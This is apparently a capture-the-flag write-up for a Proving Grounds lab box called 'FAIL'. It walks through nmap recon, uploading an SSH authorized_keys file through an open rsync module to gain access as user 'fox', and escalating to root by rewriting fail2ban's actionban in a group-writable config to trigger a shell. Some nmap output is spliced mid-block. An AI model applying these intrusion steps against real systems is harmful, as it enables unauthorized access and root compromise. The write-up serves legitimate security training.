







# FAIL

OS: Linux

# NMAP

We Find only two tcp ports open: 22 and 873

Here are the results of the default script and service scan on these ports:

```sh
PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74ba2023899262029fe73d3b83d4d96c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 548f79555ab03a695ad5723964fd074e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS                                                                                             
┌──(kali㉿kali)-[~/PGPRACTICE/FAIL/recon/nmap]
└─$ cat sshauth         
# Nmap 7.93 scan initiated Mon Aug 28 17:50:52 2023 as: nmap -p 22 --script ssh-auth-methods -o sshauth -vv 192.168.155.126
Nmap scan report for 192.168.155.126
Host is up, received conn-refused (0.039s latency).
Scanned at 2023-08-28 17:50:52 +08 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
3lzmQmxeyHGg9+xuJA=
|   256 7f5d102762ba75e9bcc84fe27287d4e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
873/tcp open  rsync   syn-ack (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```sh                                                                             
┌──(kali㉿kali)-[~/PGPRACTICE/FAIL/recon/nmap]
└─$ cat sshauth         
# Nmap 7.93 scan initiated Mon Aug 28 17:50:52 2023 as: nmap -p 22 --script ssh-auth-methods -o sshauth -vv 192.168.155.126
Nmap scan report for 192.168.155.126
Host is up, received conn-refused (0.039s latency).
Scanned at 2023-08-28 17:50:52 +08 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
```

# Port 873

On port 873 we find an rsync service

> rsync is a utility for efficiently transferring and synchronizing files between a computer and a storage drive and across networked computers by comparing the modification times and sizes of files.

Enumeration:
```sh
                                                                                             
┌──(kali㉿kali)-[~/PGPRACTICE/FAIL/recon/nmap]
└─$ nmap -sV --script "rsync-list-modules" -p 873 192.168.155.126 -vv -oA rsync

```

```sh
PORT    STATE SERVICE REASON  VERSION
873/tcp open  rsync   syn-ack (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home
```

Here we find a module (basicly a directory) named fox. I guess ‘fox home’ is the description. ‘Fox’ might be a username which we can use for bruteforcing.

We can list the shared folder:

```sh
┌──(kali㉿kali)-[~/PGPRACTICE/FAIL/recon/nmap]
└─$ rsync -av --list-only rsync://192.168.155.126/fox      
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 22:21:59 .
lrwxrwxrwx              9 2020/12/04 04:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 12:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 12:12:36 .bashrc
-rw-r--r--            807 2019/04/18 12:12:36 .profile

sent 20 bytes  received 136 bytes  312.00 bytes/sec
total size is 4,562  speedup is 29.24
```

Yes this definitely looks like the contents of a home folder.  With rsync we can upload an authorized keys file to a '.ssh' directory in the home directory                

We generate the ssh keys with:
```sh
ssh-keygen -f key
```

Now we create a directory called ".ssh" in the working directory and copy the contents to a file called authorized_keys:
```sh
cat key.pub > .ssh/authorized_keys
```

We upload the authorized_keys file to the home directory of fox using rsync:
```sh
rsync -av /home/kali/PGPRACTICE/FAIL/.ssh/  rsync://192.168.155.126/fox/.ssh/
```

We can check if the file is uploaded:

```sh
rsync -av --list-only rsync://192.168.155.126/fox/  
```



Before we try to login we need to change the permission of the private key:

```sh
chmod 600 key
```

No let's login...:



Yes, it worked!!

# Privilege escalation:

When enumerating the processes we find that fail2ban is running under the root user:



If wee look for vulnerabilites for fail2ban we find a nice way to exploit:

https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49

The vulnerability comes from a misconfiguration of a config file where the privileges are too open.


If we can see that the user ‘fox’ is memebr of the ‘fail2ban’ group"



The users of the fail2bangroup has ‘rwx’ permission in the /etc/fail2ban/action.d' directory.

In the /etc/fail2ban/action.d/ direcoty we find a config file called: iptables-multiport.conf. In this file we can write a rule what to get executed when a user is banned.




We can make changes to this config file using nano:



We change the value of actionban
> 'command executed when banning an IP'

The only thing we need to do is start a listener and get banned to get a rootshell! (sounds kinda weird.




